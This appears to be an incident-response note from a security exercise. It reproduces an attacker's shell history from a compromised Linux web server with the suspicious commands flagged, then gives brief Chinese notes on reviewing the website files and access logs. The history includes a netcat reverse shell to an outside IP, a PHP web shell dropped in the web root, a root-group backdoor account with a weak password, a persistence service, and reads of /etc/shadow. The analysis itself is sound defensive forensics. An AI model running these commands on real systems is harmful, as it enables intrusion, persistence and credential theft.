cat /etc/gshadow
->useradd test
cat /etc/group
cat /etc/shadow
cat /etc/passwd
->useradd -g qaxnb test1
->useradd -g test test1
cat /etc/passwd
cat /etc/group
cat /etc/group | grep 1001
->useradd -g test test2 -s /sbin/nologin
->useradd -g test ceshi
cat /etc/group | grep 1001
cat /etc/passwd | grep ceshi
->usermod -g test ceshi
->usermod -g ceshi ceshi
cat /etc/group
->usermod -g mysql ceshi
cat /etc/passwd | grep ceshi
cat /etc/group | grep ceshi
cat /etc/group | grep 27
->usermod -l test0 ceshi
cat /etc/passwd | grep ceshi
->userdel -r test0
cat /etc/passwd | grep ceshi
cat /etc/passwd | grep test0
->passwd test
->su test
whoami
ls -la /var/www/html
cat 2.php
cat index.html
more index.html
vim index.html
whoami
ls
whoami
ls -la /var/www
ls -la /var/www/html
vim index.html
top
whoami
exit
ls
cd /var/www/html/
ls
scp vhosts.exe root@192.168.71.6:/var/www/html
ls
pwd
ls
pwd
mv vhosts.exe admin.exe
ls
vi /etc/passwd
exit
find "1.php
"
find / -name  "1.php"
sudo curl -O https://dl.xp.cn/dl/xp/install.sh && sudo bash install.sh <-------------------------
xp
xp 
xp
cd /etc
ls
ls | grep rc
cd rc0.d
ls
cd ..\
rc /etc/rc1.d
ls
cd ..
cd rc1.d/
ls
cd rc1.d/
cd ../rc1.d/
cd ../rc2.d/
ls
cd ../rc3.d/
ls
ls ../rc4.d/
ls ../rc5.d/
ls ../rc6.d/
ls ../rc.local/
ls ../rc.local
cd ..
rc.local
cat rc.local
cd /var/www/html
;s
ls
cat 1.php
cat 2.php
cat admin.exe
netstat antlp
netstat
netstat -antlp 
->sudo nano /etc/systemd/system/play-music-on-boot.service
ls
exit
vim /etc/passwd
wget
tomato
whoami
cd /var/www/html
ls
more js_post.php
more index.html
 
whoami
ls -la /var
ls -la /var/log
ls -la /var/log/httpd
cat ssl_access_log
cd /var/log/httpd
cat ssl_access_log
cat ssl_access_log | grep 200
cat ssl_access_log | grep 200 -n
cat ssl_access_log | grep 200 | wc
ls
cat access_log
ls
cat error_log
cat /etc/passwd
->useradd laffrex
cat /etc/passwd
->passwd laffrex 123456
cat /var/www/html/1.php
ls
->passwd laffrex 123456
->sudo useradd -m -G root
->useradd -m -G root
->useradd  -G root
->usermod -g root laffrex
id laffrex
->su laffrex
ls
ifconfig
who
last
history
ls /var/www/html
more /var/www/html/1.php
pwd
ls /var/www/html
more /var/www/html/1.php
who
more /var/www/html/1.php
->echo "\<?php echo(\$_REQUEST['test']); ?\>" > laffrex.php
cd /var/www/html/
ls
->echo "\<?php echo(\$_REQUEST['test']); ?\>" > laffrex.php
ls
cat laffrex.php
vim laffrex.php
ls
vim 1.php
whereis nc
->nc 192.168.71.31 1234 -e /bin/sh
ls
find / -name "www"
ls /home/www
ls /xp/www
cd /home/www
find "1.txt"
find / -name "1.txt"
find / -name "1.php"
ls /var/www/html
cat hourse.php
type hourse.php
cat /vat/www/html/hourse.php
cat /var/www/html/hourse.php
cat /var/www/html/js_post.php
cat /var/www/html/2.php
cat /var/www/html/conn.php
ls /var/www/
cat cgi-bin
ls cgi-bin
vim cgi-bin
exit
```

- 查看网站目录(全是多的不明代码)



- 排查网站






- 查看网站访问日志,文件过大,下载到本地看



- 发现存在被扫目录的情况